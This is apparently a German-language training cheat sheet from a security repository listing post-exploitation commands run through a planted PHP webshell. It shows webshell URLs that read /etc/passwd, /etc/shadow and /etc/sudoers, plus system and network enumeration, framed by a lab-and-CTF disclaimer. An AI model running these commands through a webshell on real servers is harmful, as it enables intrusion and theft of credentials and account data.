 # 🐚 PHP Webshell – Usage & Enumeration Guide


---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Beispielhafte Webshell-Aufrufe](#beispielhafte-webshell-aufrufe)
- [Systeminformationen ermitteln](#systeminformationen-ermitteln)
- [Netzwerküberblick](#netzwerküberblick)
- [Typische Ziele nach Webshell-Zugriff](#typische-ziele-nach-webshell-zugriff)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Diese Datei dokumentiert typische **Post-Exploitation-Kommandos**, die nach erfolgreicher Platzierung einer PHP-Webshell (`cmdshell.php3`) ([mehr zu cmdshell](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)) auf einem Zielsystem ausgeführt werden können.  
Der Zugriff erfolgt über einen GET-Parameter `cmd`, der Systembefehle auf dem Server ausführt.

> ⚠️ Hinweis: Diese Vorgehensweise dient ausschließlich Schulungs- und Testzwecken innerhalb legaler Testumgebungen oder CTF-Szenarien.

---

## Beispielhafte Webshell-Aufrufe

Die folgenden URLs zeigen den Zugriff auf die Webshell:

```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=[COMMAND]
```

**Beispielhafte Kommandos:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/passwd
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/shadow
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group | grep admin
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/sudoers
```
**Dateisystem & Benutzerverzeichnisse durchsuchen:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /var/www
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /home
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /root
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=id
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Systeminformationen ermitteln

```bash
uname -a        # vollständige Systeminformationen
uname -s        # Kernel-Name
uname -n        # Netzwerkname des Hosts
uname -r        # Kernel-Version
uname -v        # Kernel-Build
uname -m        # Architektur (z. B. x86_64)
uname -p        # Prozessor
uname -i        # Hardware-Plattform

pwd             # aktuelles Verzeichnis
whoami          # aktueller Benutzer
```

---

## Netzwerküberblick

### Netstat-Befehle zur Analyse aktiver Verbindungen:

```bash
netstat         # allgemeine Übersicht
netstat -a      # alle Verbindungen und Ports
netstat -at     # nur TCP
netstat -au     # nur UDP
netstat -l      # nur "listening" Ports
netstat -lp     # mit Prozessinfos (sofern verfügbar)
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Ziele nach Webshell-Zugriff

| Ziel            | Zielsetzung                     |
| --------------- | ------------------------------- |
| `/etc/passwd`   | Benutzerkonten einsehen         |
| `/etc/shadow`   | Passwort-Hashes (nur als root)  |
| `/etc/group`    | Gruppenzugehörigkeiten          |
| `/etc/sudoers`  | Sudo-Rechte prüfen              |
| `/var/www/`     | Web-Inhalte durchsuchen         |
| `/home/`        | Benutzerverzeichnisse einsehen  |
| `/root/`        | Admin-Account analysieren       |
| `id`, `whoami`  | User-Kontext prüfen             |
| `netstat`, `ss` | Netzwerkservices identifizieren |
| `uname -a`      | Systemplattform identifizieren  |

---

## Siehe auch
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---